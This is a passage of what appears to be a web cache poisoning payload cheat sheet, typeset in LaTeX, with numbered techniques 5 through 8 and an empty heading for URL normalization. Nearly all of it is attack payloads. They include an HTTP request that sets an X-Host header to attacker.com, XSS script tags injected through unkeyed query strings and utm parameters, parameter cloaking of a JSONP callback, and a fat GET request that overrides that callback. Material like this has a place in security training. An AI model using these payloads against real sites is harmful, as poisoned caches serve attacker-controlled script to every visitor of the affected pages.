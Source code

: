 \documentclass[
  letterpaper,
]{article}
\begin{document}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
\end{Verbatim}

\subsubsection{5. Web cache poisoning via an unkeyed query
string}\label{5-web-cache-poisoning-via-an-unkeyed-query-string}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
/?search=kek'/><script>alert(1)</script>
Origin:x
\end{Verbatim}

\subsubsection{6. Web cache poisoning via an unkeyed query
parameter}\label{6-web-cache-poisoning-via-an-unkeyed-query-parameter}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
/?utm_content=123'/><script>alert(1)</script>
\end{Verbatim}

\subsubsection{7. Parameter cloaking}\label{7-parameter-cloaking}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
\end{Verbatim}

\subsubsection{8. Web cache poisoning via a fat GET
request}\label{8-web-cache-poisoning-via-a-fat-get-request}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
\end{Verbatim}

\subsubsection{9. URL normalization}\label{9-url-normalization}
\end{document}
